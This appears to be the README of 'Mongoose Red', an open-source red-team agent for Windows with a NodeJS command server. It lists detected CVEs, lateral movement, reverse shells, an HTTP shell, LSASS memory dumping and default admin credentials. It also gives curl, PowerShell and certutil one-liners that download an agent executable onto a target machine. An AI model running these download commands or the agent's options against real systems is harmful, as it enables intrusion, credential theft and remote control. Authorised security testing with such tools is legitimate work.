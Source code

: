 [![GPLv3 license](https://img.shields.io/badge/License-GPLv3-blue.svg)](http://perso.crans.org/besson/LICENSE.html)
[<img src="https://img.shields.io/badge/join-telegram-blue">](https://t.me/join0xsp)
[<img src="https://img.shields.io/badge/build%20with-Lazarus-red.svg">](https://www.lazarus-ide.org/)
[<img align="right" src="https://github.com/lawrenceamer/0xsp-Mongoose/blob/0xsp-red/lg.png?raw=true" height="512" width="400">]()
[<img src="https://www.finextra.com/finextra-images/top_pics/xl/twitter.jpg" height="64" width="128">](https://twitter.com/zux0x3a)
# 0xsp Mongoose Red for Winodws 

0xsp mongoose red version is provided to assist your needs during cyber security simulation, by using this version you will be able to audit a targeted windows operation system 
for system vulnerabilities, misconfigurations and privilege escalation attacks and replicate the tactics and techniques of an advanced adversary in a network.

with node js support for web application API, it becomes much easier for installation and customization in timely manner, the windows sensor agent will communicate with application API to transfer results, and receive commands as bidirectional technique. 

the agent is able to identify and detect windows exploits by using `windows update api` and `exploit database definitions` modules, the new release will detect also the following 
vulnerabilities.
 
* CVE-2019-0836
* CVE-2019-0841
* CVE-2019-1064
* CVE-2019-1130
* CVE-2019-1253
* CVE-2019-1385
* CVE-2019-1388
* CVE-2019-1405
* CVE-2019-1315
* CVE-2020-0787
* CVE-2020-0796
* CVE-2020-0797 

## Features 

* web application built with NodeJS 
* supports sqlite DB 
* Lateral movements techniques. 
* Bidirectional communication channel.[ video ](https://www.youtube.com/watch?v=tyhBuWCB_aY)
* Plugins online packaging.  
* Enhanced exploit detecter scripting engine. 
* weaponization of run-as-user windows api function.
* local network scanning and shares enumeration.
* lsass memory dummping technique (plugin).

### installation 

```
git clone --single-branch --branch 0xsp-red https://github.com/lawrenceamer/0xsp-mongoose 
cd 0xsp-mongoose/ 
npm install 
node index.js
```
default access credentials :
* username : admin 
* password : 0xsp

[<img align="right" src="https://i.imgur.com/EQOsiv8.png">]()



### quick deploy of agent 

```
#example 1 
curl.exe -o agent.exe http://nodejsip:4000/release/x64.exe
#example 2 
powershell.exe -command (new-object net.webclient).downloadfile('http://nodejsip:4000/release/x64.exe','c:\tmp\agent.exe');
#example 3 
certutil.exe -urlcache -split -f "http://nodejsip:4000/release/x64.exe" agent.exe

```


### Usage 
```
-s --retrieve windows services and installed drivers.
-u --retrieve information about Users, groups, roles.
-c --search for senstive config files by extension.
-n --retrieve network information,network interfaces, connection details.
-w --enumerate for writeable directories, access permission Check, modified permissions.
-i --enumerate windows system information, Sessions, log information.
-l --search in any file for specific string , ex : agent.exe -l c:\ password *.config.
-o --specify host address of nodejs application.
-p --enumerate installed Softwares, Running Processes, Tasks .
-e --kernel inspection Tool, it will help to search through tool databases for windows kernel vulnerabilities
-x --password to authorize your connection with node js application.
-d --download Files directly into Target Machine .
-t --upload Files From target machine into node js application.
-m --run all known scan Types together .

-r --spawn a reverse shell with specific account(weaponization of run-as-user windows api function).
-lr --Lateral movement technique using WMI (e.g -lr -host 192.168.14.1 -username administrator -password blabla -srvhost nodejsip )
-nds --network discovery and share enumeration
-cmd --transfer commands via HTTP Shell
-interactive --starting interactive mode (eg : loading plugins ..etc)
-username --identity authentication for specific attack modules.
-password --identity authentication for specific attack modules.
-host --identify remote host to conduct an attack to.
-srvhost --set rhost of node js application.(bidirectional communications).
```
### quick wiki 
https://github.com/lawrenceamer/0xsp-Mongoose/wiki/0xsp-mongoose-red-version-2.1

### detailed research site 
https://0xsp.com 

### contribution 
the project is opensourced and has been built with Lazarus IDE, you are welcomed to suggest any ideas or reporting bugs 

### tool tutorials 
make sure to subscribe into the following channel to be notified when new tutorial and tricks published for 0xsp 
https://www.youtube.com/channel/UCoEr6Qsyd6oMsPmaJPQ_FOg

